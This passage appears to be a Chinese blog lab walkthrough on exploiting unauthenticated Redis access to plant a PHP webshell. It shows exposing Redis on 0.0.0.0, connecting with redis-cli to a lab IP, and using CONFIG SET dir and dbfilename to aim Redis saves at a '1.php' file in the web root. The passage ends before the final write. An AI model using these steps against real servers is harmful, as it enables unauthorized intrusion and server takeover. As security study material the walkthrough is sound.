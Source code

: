 使用redis数据库连接工具也可以

![1](https://the0n3.top/medias/redis未授权访问控制漏洞/1.png)

最后，redis别忘启动

### 准备

phpstudy自带的redis，phpstudy为了安全，默认给redis设置了仅本地可访问，改成0.0.0.0

![2](https://the0n3.top/medias/redis未授权访问控制漏洞/2.png)

攻击机phpstudy安装redis，进入redis目录，存在redis-cli.exe

![3](https://the0n3.top/medias/redis未授权访问控制漏洞/3.png)

### 写入webshell

在redis安装目录打开终端

用法： `./redis-cli.exe -h ip -p port`

```bash
./redis-cli.exe -h 192.168.237.136 -p 6379
```

使用`info`命令获取系统信息

```bash
info
```

![4](https://the0n3.top/medias/redis未授权访问控制漏洞/4.png)

有了。如果知道web路径，可以写入webshell，可以通过`phpinfo()`获取web路径，不知道web路径哪里提前写入了**phpinfo()**？你存心找茬是不是，我写webshell的能给你假路径？

![5](https://the0n3.top/medias/redis未授权访问控制漏洞/5.png)

写入webshell

补充一些redis指令（不区分大小写）：

**CONFIG SET** 是 **Redis** 的配置命令，用于动态修改 Redis 服务器的运行时配置，而**无需重新启动服务器**

语法：`CONFIG SET <配置项> <值>`

常用配置项：

- dir ：设置 Redis 保存数据文件的目录

```bash
CONFIG SET dir "/path/to/directory/"
```

- dbfilename ： 设置 Redis 保存数据时的文件名

```bash
CONFIG SET dbfilename "1.php"
```
